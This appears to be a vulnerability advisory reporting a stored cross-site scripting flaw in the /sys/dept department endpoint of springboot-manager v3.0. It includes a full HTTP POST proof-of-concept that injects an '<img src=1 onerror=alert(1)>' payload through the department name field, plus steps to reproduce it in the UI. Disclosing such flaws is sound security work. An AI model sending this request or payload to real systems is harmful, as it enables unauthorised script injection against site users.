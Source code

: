 ### 1.2 `/sys/dept` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sys/dept



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sys/dept` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sys/dept HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 151
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/depts
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","pid":"0","name":"<img src=1 onerror=alert(1)>","pidName":"默认顶级部门","managerName":"18888888888","phone":"18888888888","status":"0"}
```

Organisational management -> Department management -> Add new, department name inject payload, \<img src=1 onerror=alert(1)>
